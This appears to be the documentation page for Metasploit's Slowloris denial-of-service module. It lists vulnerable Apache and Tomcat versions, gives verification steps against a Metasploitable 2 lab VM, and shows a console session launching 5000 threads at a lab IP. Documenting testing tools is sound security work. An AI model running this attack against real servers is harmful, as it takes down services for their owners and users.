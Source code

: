 Vulnerable Application

This module tries to keep many connections to the target web server open and hold them open as long as possible.

Vulnerable app versions include:

- Apache HTTP Server 1.x and 2.x
- Apache Tomcat 5.5.0 through 5.5.29, 6.0.0 through 6.0.27 and 7.0.0 beta

Download the Metasploitable 2 vulnerable Linux virtual machine from [https://sourceforge.net/projects/metasploitable/files/Metasploitable2/](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).

Verification Steps

1. Start msfconsole
2. Do: use auxiliary/dos/http/slow_loris
3. Do: set RHOST
4. Do: run
5. Visit server URL in your web-browser.

Scenarios

Apache/2.2.8 - Ubuntu 8.04

```
msf > use auxiliary/dos/http/slow_loris.rb
msf auxiliary(slow_loris) > show options 

Module options (auxiliary/dos/http/slow_loris):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.216.129  yes       The target address
   RPORT    80               yes       The target port (TCP)
   THREADS  5000             yes       The number of concurrent threads
   TIMEOUT  60               yes       The maximum time in seconds to wait for each request to finish

msf auxiliary(slow_loris) > set RHOST 192.168.216.129
RHOST => 192.168.216.129
msf auxiliary(slow_loris) > run

[*] 192.168.216.129:80 - Executing requests 1 - 5000...

```
